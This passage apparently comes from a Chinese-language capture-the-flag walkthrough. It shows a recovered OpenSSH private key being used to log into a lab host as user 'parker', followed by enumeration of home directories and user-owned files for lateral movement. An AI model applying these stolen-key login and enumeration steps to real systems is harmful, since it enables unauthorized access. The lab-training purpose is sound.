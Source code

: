 ```
yeTA0lvIKYkWcClPmiM3/CFQdWPwTyMGryyMv+5+lVJEi0dfHa02jCYKH87pVH35UF6ZPB
TgvhsrQRFX12vSk/DO30Aa15P/GT4XceHEdM6GlXkOBtILjQAAAIEAvE6vGGynNroa34mv
cuLE4hu5zK8t167MUX6zNgPDmmoUTwHIRL43ErUo+KpQf1yS3S70Q6xfTQjaxo9S5QuQMR
CsEojTarhvJ7+VxSKpjjju9Nmuxd2d2vrEPTgrOSijimjkjWK6OhZgemGoKoDUpOf2j8kv
mKzxF43kdEiETisAAAARcm9vdEAwOTk2MGRmYjE3OGUBAg==
-----END OPENSSH PRIVATE KEY-----
```

# 6. **SSH登录与横向移动**

尝试利用

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ vim /tmp/id_rsa
                       
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ chmod 600 /tmp/id_rsa 
                                                                           
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ssh-keygen -y -f /tmp/id_rsa 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCYaoeHajzgyk7GS1sN/oQ3Cp3PvFDheplu63+fEh+l6/KzN8/SQ4x50jalf69lVVPPEnca6ZlgCs1Z4VJw4j3RkJTxvKUiKELSL/jnRfPM3zpKA2Q54UiMrm6JTvwBNnC4lWpE2ynICDiqmiEG3jdKInYgsvvm7mU8HMVf2t95b2SnFT6e5Ho//BOlyoWBlZNO5LB8S51gCYE60bTWGt+C1VnMFnx6o0KMhmbHsdCR6fL6w4x1PCQqnw+4GozJqDgT89gVEcXsy6cOZu+HRXXrcVq1lhCKmleyveJO3s1PSo7Go2T6S+9ZZttEYE31UcMHLI0LbQePtbREAuDBgOav root@09960dfb178e
                               
┌──(kali㉿kali)-[/tmp]
└─$ ssh parker@192.168.205.136  -i /tmp/id_rsa1
parker@192.168.205.136's password: 

┌──(kali㉿kali)-[/tmp]
└─$ ssh parker@192.168.205.136 -p 2222 -i /tmp/id_rsa1
parker@153504fd9bcb:~$ id
uid=1001(parker) gid=1001(parker) groups=1001(parker)
```

横向移动

```bash
parker@153504fd9bcb:~$ cd
parker@153504fd9bcb:~$ ls -al
total 24
drwx---r-x 1 parker parker 4096 Aug 24 18:39 .
drwxr-xr-x 1 root   root   4096 Aug 24 18:39 ..
-rw-r--r-- 1 parker parker  220 Jul 30 19:28 .bash_logout
-rw-r--r-- 1 parker parker 3526 Jul 30 19:28 .bashrc
-rw-r--r-- 1 parker parker  807 Jul 30 19:28 .profile
drwxr-xr-x 1 parker parker 4096 Aug 24 18:39 .ssh
parker@153504fd9bcb:~$ cd /home/
parker@153504fd9bcb:/home$ ls -al
total 16
drwxr-xr-x 1 root    root    4096 Aug 24 18:39 .
drwxr-xr-x 1 root    root    4096 Oct 11 18:41 ..
drwx------ 2 goddard goddard 4096 Aug 24 18:39 goddard
drwx---r-x 1 parker  parker  4096 Aug 24 18:39 parker
parker@153504fd9bcb:/home$ find / -user $(whoami) ! -path '/proc/*' ! -path '/sys/*' ! -path '/run/*' 2>/dev/null
/home/parker
/home/parker/.ssh
/home/parker/.ssh/id_rsa.pub
/home/parker/.ssh/id_rsa
/home/parker/.ssh/authorized_keys
/home/parker/.bash_logout
/home/parker/.bashrc
```